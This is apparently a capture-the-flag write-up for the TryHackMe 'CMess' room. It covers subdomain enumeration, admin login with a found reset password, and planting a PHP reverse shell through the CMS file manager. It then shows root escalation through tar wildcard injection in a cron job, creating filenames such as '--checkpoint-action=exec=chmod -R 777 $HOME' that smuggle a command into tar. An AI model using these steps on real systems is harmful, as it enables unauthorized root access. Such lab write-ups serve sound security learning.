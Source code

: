 # [tryhackme/cmess](https://tryhackme.com/room/cmess)
## Setup
- Add `cmess.thm` to hosts file as instructed

## Enumeration
- Scanning
  - Rustscan says ssh and http are available
  - Feroxbuster doesn't show much interesting stuff
    - admin panel is at `/admin`
    - there is a `/src` directory tree but everything is 403 access denied
- Use burp intruder to scan subdomains (see hint 1)
  - Send request for `/` to intruder (ctrl+I)
  - Use intruder to modify Host header (`Host: §§.cmess.thm`)
  - Import some payloads, I used `/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`
  - Start attack
- `dev.cmess.thm` contains password reset for andre: `XXXXXXXXXXX`

## Exploitation

### Initial shell
- Use password reset we found to login into `/admin` as `andre@cmess.thm`
- Use file manager to modify index.php and add reverse shell (revshells.com - PHP PenTestMonkey)

### Getting ssh access
- Access reverse shell (navigate to `/` in browser)
  - Looked for suid `find / -perm /6000 -type f -executable 2>/dev/null` - nothing
  - `sudo -l` - nothing
  - Cannot access /home/andre
  - In /opt there is a file called `.password.bak` though
  - `/opt/.password.bak` contains a plaintext password 🤔
- Use password here to login with ssh as andre
- Now we can access `/home/andre/user.txt`

### Priviledge escalation
- In andre's home folder he has folder called backup
  - The note contained here says everything in the folder will get backed up
  - After finding no SUID bins earlier and checking `sudo -l` it's a pretty easy guess that the backup script will allow for privesc
- Proceed to search for script that does backing up
  - `find / -iname "*backup*" 2>/dev/null` - nothing
  - `crontab -e` - nothing
  - `vim /etc/crontab` - bingo

```
# /etc/crontab: system-wide crontab                                                                                                                                                                                                          
# Unlike any other crontab you don't have to run the `crontab'                                                                                                                                                                               
# command to install the new version when you edit this file                                                                                                                                                                                 
# and files in /etc/cron.d. These files also have username fields,                                                                                                                                                                           
# that none of the other crontabs do.                                                                                                                                                                                                        
                                                                                                                                                                                                                                             
SHELL=/bin/sh                                                                                                                                                                                                                                
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin                                                                                                                                                                            
                                                                                                                                                                                                                                             
# m h dom mon dow user  command                                                                                                                                                                                                              
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly                                                                                                                                                                          
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )                                                                                                                                          
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )                                                                                                                                         
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )                                                                                                                                        
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
- Backup uses tar followed by a `*` meaning we should use an unsafe shell expansion
  - gtfobins has a [nice guide](https://gtfobins.github.io/gtfobins/tar/#sudo) for how to get tar to exec commands
  - The * in `cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *` will expand to the names of the files in `/home/andre/backup`
    - This means by creating files in this directory we can control the arguments to tar and execute the exploit described on gtfobins
    - There are some limitations to this though as file names cannot contain some characters like `/`
    - I find the easiest way for me to create files with weird names like `--checkpoint=1` is with vim see below
  - Ended up just chmodding `/root` to 777 (easier than trying to get a shell)
 
#### Setting arguments with bash file expansion
When a command contains a `*` the shell will automatically expand this `*` to a space-seperated list of file names in the current directory.

To exploit this we need to come up with a command to execute with no `/` in here I will use `chmod -R 777 $HOME` as all we need to do is read `/root/root.txt`,
by chmodding we can read this file from our current user.

The command we are aiming to execute is
```bash
cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz --checkpoint=1 "--checkpoint-action=exec=chmod -R 777 $HOME"
```

To do this we first cd to `/home/andre/backup`

Then create the first argument with vim
1. run `vim`
2. type `:wq --checkpoint=1`

Then the second argument
1. run `vim`
2. type `:wq --checkpoint-action=exec=chmod\ -R\ 777\ \$HOME`

When you run `ls` the output should look like this
```
andre@cmess:~/backup$ ls                                                                                                                                                                                                                     
--checkpoint=1  --checkpoint-action=exec=chmod -R 777 $HOME  note 
```

After cron executes the job you will be able to cat the final flag :)
